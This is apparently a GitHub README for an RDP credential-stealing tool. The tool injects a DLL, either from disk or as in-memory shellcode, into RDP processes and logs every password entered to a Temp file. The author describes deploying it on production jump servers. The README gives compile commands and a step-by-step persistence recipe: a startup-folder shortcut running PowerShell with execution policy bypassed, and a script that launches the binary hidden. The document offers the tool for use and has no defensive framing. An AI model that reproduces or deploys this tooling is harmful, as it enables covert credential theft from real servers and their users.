 
# RDP-hook-stealer
This is a tool that I code in my process of understanding windows internals. I thought it was a very good idea to deploy it on jump servers. The result in a production environment was really impressive. Each password entered will be stored in C:\users\<user>\AppData\Local\Temp\data.bin

## Files
There are two files: rdp_indisk.cpp and rdp_inmemory.cpp. They are quite self-descriptive, but basically one injects the DLL from disk, and another from memory, being in shellcode format in the binary itself

## Compilation
To compile the indisk:
``x86_64-w64-mingw32-gcc rdp_indisk.cpp -o rdp_indisk.exe -lstdc++ -static``

To compile the inmemory
``x86_64-w64-mingw32-gcc rdp_inmemory.cpp -o rdp_inmemory.exe -lstdc++ -static``

## Example
![image](https://github.com/juanga333/RDP-hook-stealer/assets/51821633/24ada562-c215-4ca8-9bc6-6182e86dffa2)

## Persistence
1. Create a .lnk in startup folder
``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` with the content ``Powershell -ExecutionPolicy Bypass -File “C:\run.ps1”``
2. Create a file called ``C:\run.ps1`` with the content ``Powershell -Command “& {Start-Process ‘C:\s.exe’ -WindowStyle Hidden}”``
3. Enjoy and search from time to time data.bin file in the file explorer.

## TODO
- Encrypt shellcode loaded into memory
- Support for sending shellcode via socket (network)

